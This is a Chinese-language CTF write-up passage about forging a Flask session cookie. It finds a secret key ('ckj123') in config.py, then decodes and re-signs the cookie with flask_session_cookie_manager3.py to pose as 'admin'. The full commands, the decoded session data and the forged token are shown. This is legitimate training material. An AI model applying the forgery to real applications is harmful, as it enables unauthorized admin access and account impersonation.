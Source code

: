 

注册用户abc，密码123，F12抓包得到session

```
session=.eJxFkEGLwjAQhf_KkrOHNlsvggeXmNDCTKmkDZOLqFuNiXGhKmrF_751F3aP7837HjPzYMtt154cm5y7Sztiy_0nmzzY25pNGIiFt0JG9DBGtXAg6rTUszH2eV8KGaB3DgzcStME0EXAWGUQc05mIJT01H8EinVmReFQ15y0jcjzjEwRrK8SVI23Zn61Hu7WUIpi0AoPKOSBTH5DPcvA0N3qalyaeYZ6l6DecKvqd_IyoJhz0HWKOkzZc8Q2p267PH-F9vh_Qmwc8OoGfc3RD1EjA3kb0FMCrzUGPeDXUslIfeFRUQaz6U_dPq527V_T6ugarH4nx1VsX9Z6w0bscmq7n6-xNGHPbzbYaq0.YiIR9A.ANlJjD-W7HclEQHya-wgAX8O9uo; HttpOnly; Path=/
```

要生成session需要secret_key，搜索，在config.py中找到secret_key：ckj123

![image-20220304224727300](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220304224727300.png)

解密失败：[Decoding error] Invalid base64-encoded data

<span style="background:#FF9999;">**注意：解密的序列串前的点（.）不能少！而且最好用双引号、有secret_key下用key完全解密，否则解密出来还是base64的**</span>

```bash
python flask_session_cookie_manager3.py decode -c ".eJxFkEGLwjAQhf_KkrOHNlsvggeXmNDCTKmkDZOLqFuNiXGhKmrF_751F3aP7837HjPzYMtt154cm5y7Sztiy_0nmzzY25pNGIiFt0JG9DBGtXAg6rTUszH2eV8KGaB3DgzcStME0EXAWGUQc05mIJT01H8EinVmReFQ15y0jcjzjEwRrK8SVI23Zn61Hu7WUIpi0AoPKOSBTH5DPcvA0N3qalyaeYZ6l6DecKvqd_IyoJhz0HWKOkzZc8Q2p267PH-F9vh_Qmwc8OoGfc3RD1EjA3kb0FMCrzUGPeDXUslIfeFRUQaz6U_dPq527V_T6ugarH4nx1VsX9Z6w0bscmq7n6-xNGHPbzbYaq0.YiIR9A.ANlJjD-W7HclEQHya-wgAX8O9uo" -s ckj123

{'_fresh': True, '_id': b'04cd1f6394da05590972381d38a1c19ed12d6d82b6acc0acc0dbe8d2a556a6f7b8abdf444ecea0f32ef545cdce41eab15081f2e499a8584576de7b1d41615559', 'csrf_token': b'2ea3d13566555adb6d6641bdead5908afc2c4f80', 'image': b'jxU5', 'name': 'abc', 'user_id': '10'}
```

看到用户abc

或者可以直接用p牛的解密脚本，无需key

![image-20220305135431149](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220305135431149.png)

试试改为admin，+key生成session：

```cmd
python flask_session_cookie_manager3.py encode -t "{'_fresh': True, '_id': b'04cd1f6394da05590972381d38a1c19ed12d6d82b6acc0acc0dbe8d2a556a6f7b8abdf444ecea0f32ef545cdce41eab15081f2e499a8584576de7b1d41615559', 'csrf_token': b'2ea3d13566555adb6d6641bdead5908afc2c4f80', 'image': b'jxU5', 'name': 'admin', 'user_id': '10'}" -s ckj123

.eJxFkE-LwjAQxb_KkrOHNtteBA8uMaGFmVJJG5KL-KeaJqYLVVErfvetLuwe35v3e8zMg6z2fXOyZHruL82ErNodmT7Ix4ZMCbClM4wHdJCiWFpgVVzIeYpDNhSMexisBQW3QtUeZO4xlAmEjGo1EoI7PXx5HarEsNyirKiWJiDNEq1yb1wZoaidUYurcXA3SsfIRi3wiIwftcpuKOcJKH03skwLtUhQHiKUW2pE9akd98gWFGQVo_Qz8pyQ7anfr87fvun-Twi1BVreYKgoujGquNfOeHQ6gtcaox7xayF40EPuUOgE5rN3XRvWh-avad3ZGsvfSbcOzcvahbYjE3I5Nf37bySOyPMHEwhrkA.YiIoxQ.1STJCvyLZME_COi7806tpsQssx4
```

提交伪造session得到flag

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220304225810232.png" alt="image-20220304225810232" style="zoom: 67%;" />


